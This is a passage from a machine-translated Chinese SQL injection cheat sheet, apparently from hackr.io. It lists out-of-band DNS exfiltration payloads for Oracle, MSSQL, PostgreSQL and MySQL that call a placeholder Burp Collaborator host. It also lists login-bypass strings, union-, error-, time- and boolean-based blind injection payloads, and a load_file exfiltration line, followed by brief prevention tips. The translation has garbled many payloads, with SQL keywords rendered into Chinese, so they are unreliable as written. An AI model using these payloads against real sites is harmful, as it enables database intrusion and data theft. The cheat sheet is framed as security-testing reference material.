| 甲骨文 | 以下技术利用 XML 外部实体(XXE)漏洞来触发 DNS 查找。选择 extract value(xmltype(<？xml 版本="1.0 "编码="UTF-8 "？> <！DOCTYPE 根[ <！ENTITY % remote SYSTEM " http://YOUR-SUBDOMAIN-here . burpcollaborator . net/">% remote；] >')，'/l ')来自对偶 |
| 微软 | 执行主管..XP _ dirtree '//YOUR-SUBDOMAIN-here . burpcollaborator . net/a ' |
| PostgreSQL | 复制(选择'')到程序‘nslookup YOUR-SUBDOMAIN-here . burpcollaborator . net’ |
| MySQL 的实现 | 以下技术仅适用于 Windows:LOAD _ FILE(' \ \ \ \ YOUR-SUBDOMAIN-here . burpcollaborator . net \ \ a ')选择...INTO OUTFILE ' \ \ \ \ YOUR-SUBDOMAIN-here . burpcollaborator . net \ a ' |

## 结论

SQL 注入是非法的，但是学习如何运行所有可能的 SQL 注入攻击是测试你网站安全性的一个很好的方法。

您可以使用不同的方法来应对 SQL 注入攻击，以检查网站的完整性和安全性。因此，您需要深入了解 SQL，以便在内部实施这种攻击。这个 SQL 注入小抄将帮助你理解你可以在你的网站上测试什么类型的场景。

有兴趣了解更多关于 SQL 的知识吗？查看我们的 [最佳 SQL 教程列表](https://hackr.io/tutorials/learn-sql) ！

## 常见问题解答

#### 1。什么是 SQL 注入备忘单？

SQL 注入附带了所有必要的信息、查询和语法，将帮助您了解如何利用 SQL 数据库的漏洞。这些方法可能因版本和数据库而异。

#### 2。SQL 注入攻击的例子有哪些？

下面是一些 [SQL 注入](https://hackr.io/blog/top-sql-interview-questions#:~:text=40.%20What%20is%20SQL%20injection%3F)攻击的例子:

绕过登录: 包含潜在 SQL 漏洞的登录屏幕和表单可以使用各种 SQLi 绕过。

*   管理员' #
*   管理员“#
*   admin')) #
*   '或 1=1 - +
*   '或 1=1 #
*   或
*   "或真-
*   "或 true - +
*   ’))还是真————
*   admin '或 1=1 或' ' ='
*   admin ')或(' 1'='1' -
*   admin ')或‘1 ' =‘1 '/*
*   admin ")或" 1"="1
*   ')或(' 1 ' = ' 1-

基于 Union:您可以执行一个或多个查询，并使用 Union 关键字在 MySQL 中将它们的结果附加到原始查询中。

*   '顺序按 1，睡眠(10)+
*   '工会选择@ @版本，睡眠(10)，3 - +
*   ' union select @@version，sleep(10)，3，“' 3 '”#-+

使用 information_schema.column 中的 ' union select 1，group_concat(column_name)，3 来获取列名。

基于错误: 您可以实现计数、下限和分组函数来生成错误。如果 MySQL 没有使用基于联合的查询显示输出，您可以使用这些函数。

(select count(*)，concat(0x3a，0x3a，(select database())，0x3a，0x3a，floor(rand()* 2))a from information _ schema . columns group by a)

枚举数据库，

'和(select 1 from (select count(*)，concat(0x3a，0x3a，(select database())，0x3

盲: 在盲 SQLi 中，我们永远无法确定页面上是否存在注入。所以，我们需要用其他技术。

如果基于其他:

'和 if((select database())= ' security '，sleep(10)，null) - +

'和 if((select substr(table_name，1，1)from information _ schema . tables 其中 table_schema=database() limit 0，1)='e '，sleep(10)，null) - +

基于睡眠:

'和睡眠(10) - +

’；等待延迟' 0:0:10' - +

’))；等待延迟' 0:0:10' - +

"和睡眠(10) - +

基于布尔:

和 1 > 2 - +

'和 1=1 - +

'和(ascii(substr(database()，1，1))) < 114 - +

和(ascii(substr((select column from information _ schema . columns 其中 t

带外: 当结果有限时，我们需要选择另一个渠道来注入所需的信息。

选择@@version 进入 outfile '////127 . 0 . 0 . 1/tmp/results . txt '；

选择 load_file(concat('\\\\ '，database()，'。<own _ site>/tmp/result . txt’)；

#### 3。什么是基本 SQL 注入？

SQL 注入是最常见的网络攻击之一。攻击者可以通过注入恶意代码和破坏数据的完整性来改变存储在数据库中的信息。

#### 4。SQL 注入违法吗？

是的，SQL 注入是非法的，因为它让网络攻击者可以在用户不知情的情况下访问数据库中的关键私人信息。黑客可以使用不同的方法实施这种攻击，如本备忘单所述。

#### 5。如何防止 SQL 注入？

当软件开发人员创建需要用户输入的动态数据库查询时，就会发生 SQL 注入。

为了避免 SQL 注入攻击，开发人员要么停止编写动态查询，要么实施更强的安全措施来保护用户信息和输入。

下面是一些预防 SQL 注入的方法:

*   使用参数化查询的预准备语句的使用
*   存储过程
*   用户输入的验证
*   转义所有用户提供的输入
*   强制执行最小权限

**人也在读书:**